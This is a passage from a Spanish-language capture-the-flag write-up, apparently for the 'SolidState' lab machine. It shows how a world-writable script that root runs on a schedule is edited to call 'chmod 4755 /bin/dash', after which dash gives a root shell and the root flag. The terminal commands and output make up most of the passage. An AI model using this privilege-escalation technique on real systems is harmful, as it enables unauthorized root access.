 
Vemos que el propietario es el usuario **root** y que el ejecutar el archivo, borra todo lo que se encuentre en `/tmp/`. Si vemos los permisos, tenemos privilegio de lectura, escritura y ejecución y como el usuario **root** ejecutar el archivo a en intervalos regualres, podemos modificar el contenido del script:

```bash
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ cat tmp.py 
i#!/usr/bin/env python
import os
import sys
try:
     os.system('chmod 4755 /bin/dash')
except:
     sys.exit()

${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ ls -l /bin/dash
-rwxr-xr-x 1 root root 124492 Jan 24  2017 /bin/dash
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$
```

Esperamos un momento a que el usuario **root** ejecute el script y tenga permisos SUID la `/bin/dash` *Debian Almquist shell* (**Nota**: En caso de que no se obtenga el permiso SUID, se recomienda reinicar la máquina):

```bash
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ ls -l /bin/dash
-rwsr-xr-x 1 root root 124492 Jan 24  2017 /bin/dash
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$
```

Ya tenemos los permisos SUID en la `/bin/dash`, así que ejecutamos `dash` para acceder como **root**.

```bash
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ dash
# whoami
root
# 
```

Ya somo el usuario **root** y podemos visualizar la flag (root.txt).
